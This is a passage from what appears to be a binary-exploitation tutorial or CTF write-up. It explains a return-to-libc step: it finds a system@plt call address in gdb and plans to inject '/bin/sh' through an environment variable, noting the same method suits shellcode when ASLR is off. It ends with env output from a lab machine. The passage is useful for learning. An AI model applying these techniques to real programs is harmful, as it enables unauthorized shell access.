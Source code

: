 <p><code>0x080485b8</code> is the address where we will call <code>system@plt</code>, but with what parameter? Recall that the parameter is always pushed to the top of stack, which right now is the next four bytes after the call address <code>0x08048600</code>, it should be some random stuff, but let’s just check.</p>

<pre class="prettyprint"><code class=" hljs bash">(gdb) x/s <span class="hljs-number">0</span>x08048600
<span class="hljs-number">0</span>x8048600 &lt;__libc_csu_init+<span class="hljs-number">48</span>&gt;: <span class="hljs-string">"1\377\215\266"</span></code></pre>

<p>Indeed. <br>
What we really want to pass to the <code>system()</code> is no doubt <code>/bin/sh</code>, but where can we find it? Once we have the address of <code>/bin/sh</code> we can simply append it to our current exploit input to make it the parameter of <code>system()</code>. So let’s find a place for <code>/bin/sh</code>.  <br>
There are different ways to do so (I believe). I will focus on how to inject through environment variable. This is a useful technique not only here, but you can also inject your shellcode into the system variable, given the program disabled <code>ASRL</code> and didn’t flush the environ table.  <br>
Let’s first examine the existed environment variables. </p>



<pre class="prettyprint"><code class=" hljs makefile">user@host:/your-dir$ env
<span class="hljs-constant">_system_type</span>=Linux
<span class="hljs-constant">SSH_CONNECTION</span>=170.140.151.178 60648 172.18.1.11 22
<span class="hljs-constant">LANG</span>=en_US.UTF-8
<span class="hljs-constant">rvm_bin_path</span>=/usr/local/rvm/bin
<span class="hljs-constant">OLDPWD</span>=/
<span class="hljs-constant">rvm_version</span>=1.29.3 (latest)
<span class="hljs-constant">RUBY_VERSION</span>=ruby-2.4.1
<span class="hljs-constant">GEM_HOME</span>=/usr/local/rvm/gems/ruby-2.4.1
<span class="hljs-constant">USER</span>=user
<span class="hljs-constant">PWD</span>=/c0re
<span class="hljs-constant">_system_version</span>=9
<span class="hljs-constant">HOME</span>=/home/user
<span class="hljs-constant">_system_name</span>=Debian
<span class="hljs-constant">SSH_CLIENT</span>=170.140.151.178 60648 22
<span class="hljs-constant">_system_arch</span>=x86_64
<span class="hljs-constant">GEM_PATH</span>=/usr/local/rvm/gems/ruby-2.4.1:/usr/local/rvm/gems/ruby-2.4.1@global
<span class="hljs-constant">SSH_TTY</span>=/dev/pts/0
<span class="hljs-constant">rvm_path</span>=/usr/local/rvm
<span class="hljs-constant">MAIL</span>=/var/mail/user
<span class="hljs-constant">TERM</span>=xterm
<span class="hljs-constant">SHELL</span>=/bin/bash
<span class="hljs-constant">rvm_prefix</span>=/usr/local
<span class="hljs-constant">SHLVL</span>=1
<span class="hljs-constant">LOGNAME</span>=user
<span class="hljs-constant">MY_RUBY_HOME</span>=/usr/local/rvm/rubies/ruby-2.4.1
<span class="hljs-constant">PATH</span>=/usr/local/rvm/gems/ruby-2.4.1/bin:/usr/local/rvm/gems/ruby-2.4.1@global/bin:/usr/local/rvm/rubies/ruby-2.4.1/bin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/usr/local/rvm/bin:/home/user/bin
<span class="hljs-constant">IRBRC</span>=/usr/local/rvm/rubies/ruby-2.4.1/.irbrc
<span class="hljs-constant">_</span>=/usr/bin/env</code></pre>
